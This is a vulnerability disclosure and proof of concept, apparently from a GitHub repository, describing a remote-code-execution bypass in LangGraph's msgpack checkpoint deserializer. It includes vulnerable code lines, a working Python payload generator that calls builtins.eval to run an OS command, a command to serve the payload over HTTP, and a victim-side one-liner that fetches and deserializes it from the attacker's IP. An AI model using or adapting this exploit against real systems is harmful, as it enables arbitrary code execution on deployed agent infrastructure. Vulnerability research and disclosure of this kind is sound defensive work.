



# `LangGraph` - Version `1.1.6` / Remote Code Execution (RCE) via Insecure Deserialization 

* https://github.com/langchain-ai/langgraph
* https://pypi.org/project/langgraph/

## Introduction

**Below are one (1) way to reproduce RCE in `LangGraph` using a remote URL/API controlled by an attacker, without local intervention by a third party to modify files that allow code execution during the deserialization process.**

**For this PoC, two (2) different devices were used to simulate the interaction between an attacking machine (Raspberry Pi with IP 192.168.1.90) and a victim machine (Windows with IP 192.168.1.88).**

> [!IMPORTANT]
> This is a **Bypass of CVE-2026-27794 Remediation**. Disabling Pickle fallback is insufficient as long as the Msgpack extension policy remains permissive by default. An attacker can simply switch the payload format from Pickle to Msgpack-Ext to achieve the same result.

This document identifies two critical **0-Day** (unpatched) vulnerabilities in `langgraph-checkpoint` version 4.0.2. While the official advisory for CVE-2026-27794 addresses the default state of the `pickle` fallback, it fails to remediate—or even document—the structural risks inherent in the `msgpack` extension mechanism and specific persistence components.

These findings represent a significant bypass of existing security patches, as they allow Remote Code Execution (RCE) even when `pickle_fallback` is disabled, provided the default configuration is used.

## Vulnerability description

LangGraph (via `langgraph-checkpoint`) is vulnerable to Remote Code Execution (RCE) through its `JsonPlusSerializer` component. This serializer implements a custom `msgpack` extension mechanism to handle complex Python types. Even in the latest "patched" versions (checkpoint v4.0.2), the system defaults to a permissive policy (`allowed_msgpack_modules=True`) for `msgpack` extensions. This allows an attacker to trigger arbitrary module imports and function calls (constructors) by providing a crafted `msgpack` payload with specific extension codes, effectively bypassing the trust boundary established by recent security fixes related to `pickle`.

### The vulnerable code in `langgraph/checkpoint/serde/jsonplus.py`:

```python
# langgraph/checkpoint/serde/jsonplus.py:82 (Lacking validation by default)
82:                 allowed_msgpack_modules = True

# langgraph/checkpoint/serde/jsonplus.py:603 (The RCE Sink)
603:                 return getattr(importlib.import_module(tup[0]), tup[1])(tup[2])
```

## Technical Impact Analysis

### Project Purpose & Context

LangGraph is a library designed for building stateful, multi-actor applications with LLMs. It is heavily used in advanced AI agent orchestration, where complex workflows require frequent serialization and persistence of graph states (checkpoints) across different execution steps and persistence backends.

### Platform & Deployment Environment

The framework is typically deployed in cloud-native environments, AI-powered production systems, and developer machines. It often relies on networked persistence layers like Redis, Postgres, or SQLite to synchronize state between distributed agent workers and masters.

### Comprehensive Risk Assessment

The vulnerability is **Critical**. It represents a direct bypass of the official remediation (CVE-2026-27794). By switching from a `pickle` payload to a `msgpack` extension payload, an attacker can achieve RCE even when `pickle_fallback` is disabled. This allows for unauthorized infrastructure-wide execution if any state backend is compromised or if state data is retrieved from untrusted network sources.


## Attack Scenario

### Who wants to exploit a particular vulnerability?

Threat actors targeting agentic AI infrastructure, industrial competitors seeking model/trade secrets from agent memory, or attackers looking to pivot from a public AI endpoint to internal cloud infrastructure (GPU/TPU clusters).

### For what gain?

To gain full control over the AI orchestrator, exfiltrate sensitive data from agentic tool outputs, hijack computational resources, or tamper with the logic of critical AI-driven automated processes.

### In what way?

Through "Distributed State Poisoning". An attacker who can write to a shared persistence backend (e.g., a Redis instance with weak or no credentials) can replace a legitimate graph state with a malicious `msgpack` blob. When the LangGraph service attempts to resume execution and "loads" the state, the RCE is triggered automatically.


# Reproduction steps

## On the Raspberry (attacker) - IP 192.168.1.90

```bash
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
kw0@kw0l4b:~ $
```

The attacker creates a malicious Msgpack blob that leverages the `EXT_CONSTRUCTOR_SINGLE_ARG` (code 0) to execute arbitrary code (e.g., launching a calculator). Run the specialized `exploit.py` script to generate the `payload.msgpack`:

```python
import ormsgpack

# 0-Day: Using Msgpack Extension Code 0 (EXT_CONSTRUCTOR_SINGLE_ARG)
# This allows calling any module.function(arg)
# We use the 'Universal' pattern with builtins.eval to ensure Cross-Platform compatibility
payload = ("builtins", "eval", "__import__('os').system('calc')") 
inner_data = ormsgpack.packb(payload)
ext_obj = ormsgpack.Ext(0, inner_data)
final_blob = ormsgpack.packb(ext_obj)

with open("payload.msgpack", "wb") as f:
    f.write(final_blob)

print("Payload generated: payload.msgpack")
```

Run the script:

```bash
python -m http.server 8000 --bind 0.0.0.0
```



## On Windows (victim) - IP 192.168.1.88

```powershell
PS L:\Pickle-RCE-Finder\PYPI-langgraph> Get-NetIPAddress -AddressFamily IPv4 | Where-Object PrefixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress
192.168.1.88
PS L:\Pickle-RCE-Finder\PYPI-langgraph>
```

1. Create a `.venv`, activate it, and install the latest updated version of `langgraph` (`1.1.6`):
2. And subsequently, remotely consume the attacker-controlled payload:

```
python -c "import requests; from langgraph.checkpoint.serde.jsonplus import JsonPlusSerializer; JsonPlusSerializer().loads_typed(('msgpack', requests.get('http://192.168.1.90:8000/payload.msgpack').content))"
```



```
python poc.py
```

